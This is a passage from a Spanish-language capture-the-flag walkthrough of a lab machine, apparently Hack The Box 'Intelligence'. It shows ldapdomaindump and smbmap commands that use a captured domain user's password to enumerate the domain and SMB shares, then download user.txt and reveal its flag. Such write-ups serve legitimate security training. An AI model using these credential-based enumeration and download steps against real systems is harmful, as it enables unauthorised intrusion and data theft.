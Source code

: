 ```bash
ldapdomaindump -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -n 10.10.10.248 10.10.10.248
```

Podemos probar ahora que tenemos credenciales smbclient o smbmap.

![list](/assets/img/intelligence/Kali-2022-09-10-02-07-22.png){:.lead width="800" height="100" loading="lazy"}

```bash
smbmap -H 10.10.10.248 -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876'
```

{:.note}
Tenemos acceso a algunos shares pero vamosa husmear en Users para buscar la flag de user.txt 

bingoo la encontramos.

La descargamos con el siguiente comado.

```bash
smbmap -H 10.10.10.248 -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' --download Users/Tiffany.Molina/Desktop/user.txt
```

{:.note}
La flag de user.txt es `020cafd6230d6904434ff4f987e0f715`. 

tambien vemos otro archivo interesante que nos podemos decargar para analizarlo.

![list](/assets/img/intelligence/Kali-2022-09-10-02-11-56.png){:.lead width="800" height="100" loading="lazy"}
